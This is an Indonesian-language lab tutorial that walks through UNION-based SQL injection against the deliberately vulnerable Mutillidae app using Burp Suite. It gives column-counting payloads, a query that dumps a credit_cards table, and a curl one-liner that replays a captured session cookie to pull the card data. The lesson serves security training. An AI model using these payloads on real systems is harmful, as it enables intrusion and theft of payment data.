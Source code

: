 Lesson 8 - SQL Injection Union Exploit #1
-------

### # Mempersiapkan Burp Suite dan Firefox

- **Step 1** : Buka halaman user info. Pilih sidebar. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)


-  **Step 2** : Setting proxy pada firefox dengan membuka pengaturan network melalui open menu --> Preferences -> Advanced --> Network

- **Step 3** : Pada bagian connection, klik tombol _Settings_. Setelah mengklik tombol _Settings_, maka akan muncul kotak dialog _Connection Settings_. Atur _Connection Settings_ sesuai gambar.
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_06_35.png)

- **Step 4** : Buka burpsuite, dengan cara pilih Applications --> Web Application Analysis --> burpsuite
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_10_12.png)


 - **Step 5** : Pada saat burpsuite telah dibuka, maka akan ditanyakan tentang project. Klik tombol Next 
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_24_51.png)
 
 - **Step 6** : Setelah menekan tombol next, maka selanjutnya ada memilih konfigurasi burp. Pilih radio button User Burp defaults dan Klik Start Burp
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_26_28.png)
 
 - **Step 7** : Setelah menekan tombol Start Burp, maka aplikasi Burp Suite sudah berjalan. Langkah selanjutnya adalah memastikan apakah port proxy pada Burp Suite adalah 8080, dengan cara memilih menu Proxy --> Options
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_31_58.png)
 
 - **Step 8** : Setelah memastikan port porxy 8080, maka selanjutnya adalah mematikan Intercept pada menu Proxy --> Intercept.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_34_07.png)
 
 
### # SQL Injection (Union Example #1)
 
 - **Step 1** : Buka halaman user info. Pilih sidebar. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)


- **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

- **Step 3** : Masukkan syntax sql `' union select null -- ` pada text box name untuk perbocaan pertama melakukan sql injection dan tekan tombol _View Account Details_.
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_40_50.png)
 
- **Step 4** : Setelah menekan tombol _View Account Details_, maka akan terjadi error query karena jumlah kolom dan kolom union berbeda.
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_44_12.png)

- **Step 5** : Lakukan **Step 2** kembali. Setelah melakukan **Step 2**, lakukan kembali **Step 3** dengan menambah `null` pada syntax query sql injection. Contoh penambahan `null` pada query sql injection `' union select null,null -- `.

- **Step 6** :  Lakukan **Step 5** sampai jumlah kolom union dan kolom table accounts sama. `' union select null,null,null,null,null -- ` adalah syntax query hasil percobaan **Step 5**. Dapat disimpulkan jumlah kolom pada table accounts adalah 5.

- **Step 7** : Masukkan query sql injection `' union select null,null,null,null,null -- ` pada textbox name. Dan kemudian tekan tombol _View Account Details_.
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_56_23.png)

- **Step 8** : Setelah menekan tombol _View Account Details_, maka hasilnya akan menunjukan kolom yang ditampilkan pada web.
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_58_23.png)

- **Step 9** : Lakukan **Step 7** kembali dengan mengganti `null` menjadi angka dengan query sql injection sebagai berikut `' union select 1,2,3,4,5 -- `
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_03_20.png)
 
- **Step 10** : Dapat dilihat dari hasil percobaan **Step 9** bahwa kolom username diisi oleh nomer 2, password diisi oleh nomer 3 dan Signature diisi oleh nomer 4.
 
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_04_19.png)

- **Step 11** : Langkah selanjutnya adalah melakukan serangan sql injection dengan menggabungkan dengan tabel yang sudah diketahui selain accounts. Contohnya menggunakan tabel credit_cards, sehingga query sql injectionnya menjadi `' union select ccid,ccnumber,ccv,expiration,null from credit_cards -- `
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_10_49.png)
 
- **Step 12** : Maka hasilnya, bagian username diisi oleh ccnnumber, password diisi oleh ccv, dan signature diisi oleh expiration. 
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_12_04.png)
 

### # Curl Action
- **Step 1** : Buka Burp Suite dan cari log hasil sniffing pada **step 12** pada bagian SQL Injection (Union Example #1), kemudian catat/copas raw header request.
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_17_58.png)

- **Step 2** : Copas Cookie pada hasil header dan masukkan pada file crack_cookies.txt
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_21_02.png)
 
- **Step 3** : Jalankan perintah `curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'` dan lihat hasilnya. Hasilnya adalah data hasil sql injection.
 



 
  


 
 